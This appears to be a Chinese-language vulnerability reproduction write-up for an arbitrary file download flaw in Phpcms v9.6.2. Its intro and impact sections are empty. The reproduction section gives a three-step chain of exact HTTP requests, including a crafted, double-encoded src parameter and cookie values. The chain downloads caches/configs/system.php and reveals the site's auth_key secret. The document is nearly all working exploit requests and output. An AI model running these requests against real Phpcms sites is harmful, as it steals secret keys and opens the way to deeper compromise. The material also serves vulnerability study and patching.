

Phpcms v9.6.2 任意文件下载
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

##### 第一步:进行如下请求获得YDVIB\_siteid的值。

请求：

    [GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1

获得：

    [cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

##### 第二步:在\[POST DATA\] 中的userid\_flash参数的值设置为，第一步请求得到的YDVIB\_siteid参数的值，并进行如下请求。

请求：

    [GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1

    [POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst

获得：

    [cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g

##### 第三步:将GET请求中的a\_k参数的值设置为第二步请求获得的YDVIB\_att\_json参数的值，并进行如下请求。

请求：

    [get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw

获得：

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

##### 最后点击"点击下载"的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的'auth\_key'

    http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
